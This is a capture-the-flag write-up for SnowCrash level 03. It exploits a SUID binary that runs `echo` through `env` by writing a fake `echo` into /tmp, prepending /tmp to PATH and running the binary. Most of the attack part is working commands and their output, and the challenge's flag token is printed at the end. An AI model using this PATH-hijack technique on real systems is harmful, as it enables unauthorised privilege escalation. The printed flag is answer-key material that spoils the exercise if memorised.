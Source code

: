 # Level 03 - `PATH` Hijacking via SUID Binary

In this level, we exploit a SUID binary that calls `echo` using `system()`, allowing us to hijack the `PATH` variable and run our own malicious version of `echo`.

---

## Step 1: Inspect the Home Directory

```bash
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```

We notice the presence of a **SUID** binary owned by `flag03`:

```bash
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

This binary runs with the privileges of `flag03` and is therefore a target of interest.

---

## Step 2: Analyze the Binary (Decompilation)

Using tools like **Dogbolt** or **Ghidra**, we decompile the binary and get the following simplified C-like logic:

```c
int main(int argc, char **argv, char **envp) {
  gid_t gid = getegid();
  uid_t uid = geteuid();
  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
  int ret = system("/usr/bin/env echo Exploit me");
  return ret;
}
```

This tells us the binary executes:

```bash
/usr/bin/env echo Exploit me
```

Which looks up `echo` in the current `PATH`. Since it uses `env`, we can hijack the command by injecting our own version of `echo` earlier in the path.

---

## Step 3: Craft a Malicious `echo`

Create a fake `echo` script that runs `getflag`:

```bash
echo "/bin/sh -c 'getflag'" > /tmp/echo
chmod +x /tmp/echo
```

---

## Step 4: Hijack the `PATH` and Run the Binary

We add `/tmp` to the beginning of the `PATH` so our fake `echo` gets called:

```bash
export PATH=/tmp:$PATH
./level03
```

Output:

```bash
Check flag.Here is your token : [REDACTED]
```

---

## ✅ Summary

- SUID binary executes `echo` via `env`, vulnerable to `PATH` hijacking.
- Injected our own `echo` script to call `getflag`.
- Successfully escalated privileges to retrieve the flag.

### Flag Token:

```text
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
